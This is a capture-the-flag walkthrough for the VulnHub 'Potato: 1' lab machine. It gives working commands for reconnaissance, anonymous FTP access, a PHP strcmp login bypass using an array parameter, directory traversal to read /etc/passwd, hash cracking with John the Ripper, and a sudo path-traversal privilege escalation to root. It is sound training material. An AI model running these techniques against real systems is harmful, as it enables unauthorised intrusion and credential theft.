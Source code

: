 # Potato: 1 Walkthrough

## Preparation
1. Download Potato.ova file ([Potato.ova](https://download.vulnhub.com/potato/Potato.ova))

1. Import the OVA file in the VirtualBox

1. Set the network adapter to Host-only Adapter
    * Attached to: **Host-only Adapter**
    ![Host-onlyAdapter](./img/potato_server_network.png)

1. Start the Potato virtual machine
    * Turn on the potato virtual machine from the VirtualBox
    ![StartPotato](./img/potato_server_initial.png)

1. Confirm the IP address of the Potato virtual machine from the attack virtual machine  
    * `sudo netdiscover -i enp0s3 -r 192.168.56.0/24`
    ![netdiscover](./img/potato_server1.png)
    ![PotatoIP-Address](./img/potato_server2.png)
        * 192.168.56.100: DHCP Server
        * **192.168.56.102**: Potato Server

1. Set the Potato IP address to the environment variance  
`export IP=192.168.56.102`  

## Reconnaissance
1. Do portscan using Nmap  
    * `sudo nmap -sC -sV -Pn -p- $IP -oN nmap_result.txt`  
    ![nmap](./img/potato_server3.png)
        * -sC: Scan with default script
        * -sV: Show software name and the version
        * -Pn: Do not confirm communication before port scan (We have already confirmed the Potato IP address.)
        * -p-: Scan all ports (from 0 to 65535 ports)
        * -oN: Output the scan results to the specified file

1. As we see the nmap result, we can attempt to log in with AnonymousFTP.  

## Initial Access
1. Access the FTP service  
    * `ftp $IP 2112`  
    ![FTP-Access](./img/potato_server4.png)
        * Name: anonymous
        * Password: password (empty is OK)

1. Get index.php.bak and welcome.msg files
    * `get index.php.bak`, `get welcome.msg`  
    ![GetFiles](./img/potato_server5.png)

1. Exit FTP service  
Input the `exit`  

1. Confirm the downloaded files  
    * Investigate the "welcome.msg" and confirm the content  -> There is no useful information in this file 
    ![Welcome.msg](./img/potato_server6.png)  
    * Investigate the "index.php.bak" and confirm the content -> the username is fixed to "admin" and the default pass is "potato"  
    ![index.php.bak](./img/potato_server7.png)  
 
1. Since we know the index.php page and the Nmap result shows the 80 port is open, we find accessible files and directories using Gobuster.
    - Set the 80 port URL to the environment variance  
    `export URL="http://$IP:80/"`  
    - Input the following gobuster command  
    `gobuster dir -u $URL -w /usr/share/wordlists/dirb/common.txt`  
        * dir: Enumerate directories and files
        * -u: Designate target URL
        * -w: Use dictionary file
    - Find /admin directory
    ![admin_directory](./img/potato_server8.png)

1. Access the /admin page using Burp
    - Proxy -> Intercept -> Intercept on -> Open browser -> Enter "http://192.168.56.102/admin" in the browser  
    - Click "Forward" until Login page is shown
    - Enter "admin" in the User and "test" in the Password and click Login button
    - In the "index.php.bak" file, the password is confirmed using the strcmp() function. In the PHP strcmp() function, we designate an array type, and it causes an error. Unfortunately, "NULL == 0" becomes **True** in PHP specification.
    - Change the input password in the Burp  
    Current: `username=admin&password=test`  
    Changed: `username=admin&password[]=test`  
    ![Burp_password](./img/potato_server9.png)  
    - Change to "Intercept off"
    - Go to the dashboard page and access the Logs page  

## Execution
1. Attempt directory traversal in the Logs page
    - Change to "Intercept on"
    - Select log_01.txt (log_02.txt or log_03.txt is OK) and click the "Get the log" button
    - Change the log_01.txxt file directory  
    Current: `file=log_01.txt`  
    Changed: `../../../../../etc/passwd`  
    ![file_directory](./img/potato_server10.png)  
    ![etc_passwd](./img/potato_server11.png)

1. Make /etc/passwd data file using the Cookie pass and curl command
    - Cookie pass is as follows  
    ![Cookie_pass](./img/potato_server12.png)  
    - Curl command is as follows  
    `curl -X POST -b "pass=serdesfsefhijosefjtfgyuhjiosefdfthgyjh" -d 'file=../../../../../etc/passwd' "http://192.168.56.102/admin/dashboard.php?page=log" | tr '\0' '\n' | cat > etc_passwd.txt`  
        * -X: Designate HTTP method
        * -b: Send Cookie
        * -d: Send form as POST request
        * tr '\0' '\n': Replace null with carriage return
        * cat > etc_passwd.txt: Output the command result in the etc_passwd.txt

1. Analyze the etc_passwd.txt
    - Extract login-enabled users using the following command  
    `cat etc_passed.txt | grep -P 'sh$'`  
    ![Login-enabled-users](./img/potato_server13.png)
        * grep -P 'sh$' is used to search for lines in a file that end with the string sh
        * Login-enabled users have "bash" or "sh" in the 7th field
        * There are "root", "floarianges", and "webadmin" users
    - Extract users who have password hash from the etc_passed.txt file  
    `cat etc_passwd.txt | grep -P 'sh$' | grep webadmin > webadmin_hash.txt`  
    - Decrypt password hash using John the Ripper  
    `john webadmin_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt`  
    ![john](./img/potato_server14.png)
        * webadmin password: **dragon**  

## Credential Access for general user
1. SSH access
    - From the Nmap result, as the SSH port is open, we attempt to access SSH
    ![SSH-access](./img/potato_server15.png)
        * password: **dragon**
    - Confirm the home directory and access the user.txt file
    ![General-user-text](./img/potato_server16.png)  

## Privilege Escalation
1. Access to the other user home directory
    * While analyzing password hash, we know there is a "florianges" user
    * Access to the "home/floarianges" directory and seek attackable files  
    ![floarianges-home](./img/potato_server17.png)  
    * There is a suspicious "sudo_as_admin_successful" file but the file size is 0   
    -> Think other approaches

1. Confirm sudo setting  
    * Check webadmin's permission using `sudo-l`
    * password: **dragon**  
    ![sudo-webadmin](./img/potato_server18.png)  
    * webadmin can execute "/bin/nice" program (x has been granted)
    * We find that "/bin/nice" is used to modify the scheduling priority from the man command
    * There is no read permission for the "/notes/clear.sh" and "/notes/id.sh" files  

1. Investigate the "clear.sh" and "id.sh" files' behaviors  
    * `sudo /bin/nice /notes/clear.sh` -> The display is cleared
    * `sudo /bin/nice /notes/id.sh` -> The "id.sh" is implied to be executed with root permission and webadmin may gain root permission
    ![notes-id.sh](./img/potato_server19.png)  

1. Escalation
    * Excecute /bin/bash using nice command  
    **`sudo /bin/nice /notes/../bin/bash`**  
    ![Escalation](./img/potato_server20.png)  
    * Return root permission's prompt (# is displayed)  

## Credential Access for root user
1. Access the "root.txt" file of root user
    * Go to the root directory and access the "root.txt" file  
    ![root.txt](./img/potato_server21.png)